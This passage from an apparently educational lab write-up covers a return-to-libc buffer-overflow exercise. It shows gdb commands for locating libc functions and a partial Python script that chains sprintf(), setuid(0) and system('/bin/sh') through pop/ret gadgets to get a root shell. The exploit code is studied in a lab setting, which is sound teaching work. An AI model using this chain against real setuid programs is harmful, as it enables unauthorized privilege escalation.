 ![task-5-b](https://github.com/iukadike/blog/assets/58455326/a5be1d76-9902-4c3d-b99f-0086472ec6d9)


Since both `setuid()` and `system()` take one argument, we are interested in the address of `popret` gadget. `sprintf()` takes two arguments, thus we also need `pop2ret`

- one argumet:    popret
- two argumets:   pop2ret
- three argumets: pop3ret
- four argumets:  pop4ret

The address of `system()`, `sprintf()` and `setuid()` can be obtained by runnning the vulnerable program in gdb and executing the following:

```nasm
b main
run
p system
p sprintf
p setuid
```

The exploit can be created using the following python code

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values up to $ebp
# $ebp - &buffer = 22
content = bytearray(0xaa for i in range(22))

# Function to set endianess
def tobytes(value):
    return value.to_bytes(4,byteorder='little')

# Record the addresses
system_addr     = 0xf7e12420        # The address of system()
exit_addr       = 0xf7e04f80        # The address of exit()
sh_addr         = 0xf7f5c352        # The address of "/bin/sh"
setuid_addr     = 0xf7e99e30        # The address of setuid()
sprintf_addr    = 0xf7e20e40        # The address of sprintf()
popret          = 0x56556022        # The address of pop; ret gadget
pop2ret         = 0x56556412        # The address of pop pop; ret gadget
ebp             = 0xffffcdd8        # The address of the frame pointer in bof()

#########################################################
# sprintf() needs two arguments                         #
# arg1: destination to write string read from source    #
# arg2: source to get string to write into destination  #
#########################################################
sprintf_arg1 = ebp + 76                    # Address of arg for setuid()
sprintf_arg2 = sh_addr + len("/bin/sh")    # /x0

###########################################################################
# The stack is built the following way from high address to low address:  #
# Address of exit()                                                       #
# Address of arg[0] for system() = /bin/sh                                #
# Address of popret gadget                                                #
# Address of system()                                                     #
# Address of arg[0] for setuid() = 0                                      #
# Address of popret gadget                                                #
# Address of setuid()                                                     #
# Address of arg[1] for sprintf() = source = /x0                          #
# Address of arg[0] for sprintf() = destination  = $ebp+76                #
# Address of pop2ret gadget                                               #
# Address of sprintf()     - do four times                                #
```